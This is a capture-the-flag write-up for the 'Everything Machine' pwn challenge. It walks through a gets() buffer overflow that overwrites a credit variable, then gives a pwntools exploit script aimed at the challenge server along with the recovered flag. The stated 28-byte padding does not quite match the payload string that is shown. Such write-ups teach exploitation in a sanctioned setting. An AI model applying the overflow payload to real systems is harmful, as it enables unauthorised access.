


# Everything Machine

## Problem

<details>

<summary>Description</summary>

The "Everything Machine" is a volumetric printer that had the ability to copy and print any three dimensional object. Can you, by force, make it print out a flag? Maybe overflow it with something?

```c
nc 34.124.192.13 60640
```

</details>

## Solution

Basic file check and checksec reveals that the binary is ELF 64-Bit, dynamically linked not stripped and the protection enabled is NX and partial RELRO. Let's take a look at the main function

<figure><figcaption><p>Decompiled Main Function</p></figcaption></figure>

It seems for the program to run system on flag.txt, we need to make sure that the variable `credit` must hold a value more than 12337. It seems that `credit` is set using the `login()` function. Let's take a look at it

<figure><figcaption><p>Decompiled login Function</p></figcaption></figure>

at glance, if everything went normal there seems no way for `credit` to be returned with a value more than we wish. However since the function is using the dangerous `gets()` function, we can possibly overwrite the `credit` and return its value as we wish. However we also have to make sure that our `input_buffer` has to fail both of the string compare to make sure that the value of `credit` won't be updated. Looking at the stack alignment, we can see that we need to write 28 bytes of padding before we'll overwrite the `credit` variable.


```python
#!user/bin/python3
from pwn import *

# =========================================================
#                          SETUP                         
# =========================================================
exe = './everything'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'debug'
host = '34.124.192.13'
port = 60640

def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(host, port, *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

gdbscript = '''
init-pwndbg
continue
'''.format(**locals())

io = start()

# =========================================================
#                         EXPLOITS
# =========================================================

# sending payload
io.sendlineafter(b'Item: ', b'aaaaaaaaaaaaaaaaaaaaaaaaaaa0x3031')

io.interactive()
```


## Flag

> _**FindITCTF{D1v1s10n$\_1z\_th3\_b3st\_4LBUM}**_
